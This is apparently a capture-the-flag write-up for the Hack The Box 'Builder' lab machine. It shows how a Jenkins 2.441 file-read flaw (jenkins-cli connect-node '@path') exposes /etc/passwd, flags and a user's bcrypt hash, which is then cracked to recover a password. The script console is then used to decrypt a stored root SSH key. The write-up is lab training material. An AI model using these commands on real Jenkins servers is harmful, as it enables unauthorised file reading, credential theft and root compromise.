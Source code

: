 # Builder Writeup
<figure><img src="../src/Builder/banner.png"></figure>

### Target IP 10.10.11.10

## Enumeration
Nmap Scan:
```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
8080/tcp open  http    syn-ack Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On opening the page which is served on `8080`. There is a jenkins dashobard.

<figure><img src="../src/Builder/dashboard.png"></figure>

The jenkins version is mentioned in the bottom right which is `2.441`. On the people tab there are two users `jennifer` and `anonymous`. 

After a quick serach for the version I got a CVE through which I could some some file reading.

To exploit this vulnerability we need to download the command-line client `jenkins-cli.jar`.

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
--2024-05-22 23:16:33--  http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
Connecting to 10.10.11.10:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar.1’

jenkins-cli.jar.1                             100%[===============================================================================================>]   3.46M   746KB/s    in 7.0s    

2024-05-22 23:16:40 (508 KB/s) - ‘jenkins-cli.jar.1’ saved [3623400/3623400]
```

## User Flag

Using the jar file I can read some contents from the machine.

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node "@/etc/passwd"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

The home for jenkins is `jenkins_home` so we can fetch the user flag from there.

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node "@/var/jenkins_home/user.txt"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: No such agent "ab4f64aa98733a84a56e7ea537a5f0f4" exists.
```

And we got the user flag.

## Root Flag

According to the storage structure information about the user is stored in `/users/users.xml`.

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' -http connect-node "@/var/jenkins_home/users/users.xml"           
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
May 22, 2024 11:02:58 PM hudson.cli.CLI _main
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

I can get the user hash from the `config.xml`

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' -http connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
May 22, 2024 11:03:50 PM hudson.cli.CLI _main
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">: No such agent "    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">" exists.
    <hudson.search.UserSearchProperty>: No such agent "    <hudson.search.UserSearchProperty>" exists.
      <roles>: No such agent "      <roles>" exists.
    <jenkins.security.seed.UserSeedProperty>: No such agent "    <jenkins.security.seed.UserSeedProperty>" exists.
      </tokenStore>: No such agent "      </tokenStore>" exists.
    </hudson.search.UserSearchProperty>: No such agent "    </hudson.search.UserSearchProperty>" exists.
      <timeZoneName><SNIP>
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such agent "      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>" exists.
```

On decrypting the `blowfish` hash we get the credentials `jennifer:princess` through which we were able to login to the console.

<figure><img src="../src/Builder/console.png"></figure>

On going to the credentials page, there is an ssh but we are not able to open it.

<figure><img src="../src/Builder/dash-ssh.png"></figure>

But on going over the page source we can see that the ssh key is in an encrypted format.

<figure><img src="../src/Builder/enc.png"></figure>

I can go to the `script console` to decrypt that to gain the ssh key.

<figure><img src="../src/Builder/sshkey.png"></figure>

And I logged in as root to get the `root.txt`.

<figure><img src="../src/Builder/rooted.png"></figure>

The machine is rooted.

Thank you!! Happy Hacking :D